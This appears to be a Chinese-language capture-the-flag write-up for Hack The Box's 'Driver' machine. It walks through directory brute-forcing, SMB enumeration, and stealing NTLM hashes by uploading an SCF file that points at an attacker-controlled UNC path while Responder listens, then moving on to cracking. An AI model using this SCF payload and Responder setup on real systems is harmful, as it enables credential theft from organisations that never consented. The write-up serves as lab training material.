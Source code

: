 ```bash 
feroxbuster -u http://driver.htb/ -H "Authorization: Basic YWRtaW46YWRtaW4=" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php 
```

爆破半天也没能找到任何上传的点位或者上传的php文件，如果服务器把上传的目录设置成一个特别的名字，那么扫不到这个路径是很正常的

#### smb服务枚举

```bash
enum4linux-ng -A driver.htb

└─$ nxc smb driver.htb --shares -u 'anonymous' -p ''
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Build 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True) 
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\anonymous: STATUS_LOGON_FAILURE 
```

能看到smb服务没能成功枚举到什么内容
#### SMB Server sniff NTLM离线破解 sfc诱导

这时已知存在smb服务，并且web页面的`file share`关键字表示，大概率传上去的文件会给到smb服务用于共享，经过一些对于smb服务的枚举，没能找到任何登录smb服务的方式。

但是当smb服务访问UNC路径时(比如 \\\\10.10.10.10\\shares)，会自动带上NTLM凭证尝试认证以访问这个共享文件。

另一个需要清楚的是，内网中并不是一直都使用DNS来进行解析，如果DNS解析不成功，那么会自动降级为NetBIOS和LLMNR协议，smb会使用这种协议，除非windows的安全策略里直接禁用了这些协议。那么当smb服务访问一个DNS解析无法处理的地址的时候，自动降级为NetBIOS和LLMNR这样的广播协议，从而让responder抓取到访问向kali网卡的流量，其中正携带的NTLM密文。

总结一下利用流程:
1. 上传一个可以触发DNS查询失败的，访问UNC的请求（比如scf文件），这个UNC指向kali的地址
2. DNS解析主机名失败后smb自动降级使用LLMNR和NetBIOS这种广播协议，其中smb会自动携带NTLM密文企图通过认证
3. responder监听kali的网卡流量，smb服务认为responder是正常的另一个smb服务，从而发送NTLM凭证，使得responder可以截获smb服务的NTLM密文
4. hashcat或者john破解NTLM

##### 设置responder

记得把445端口的服务关闭一下再运行responder

```bash
sudo responder -I tun0
```
也可以运行`sudo responder -I tun0 -v`, 这样不会屏蔽掉重复的NTLM凭证
##### 上传scf文件

```bash
[Shell]
Command=2
IconFile=\\10.10.16.5\shares
[Taskbar]
Command=Explorer
```

#### 破解NTLM密文

这里这个NTLM是不能直接作为hash传入的，因为此处NTLM不仅有服务端和客户端的挑战，还带有时间戳，导致虽然是一样的用户名密码，但是不同时间点得到的NTLM凭证的值都是不同的。

##### nth交叉验证密文类型，使用hashcat爆破
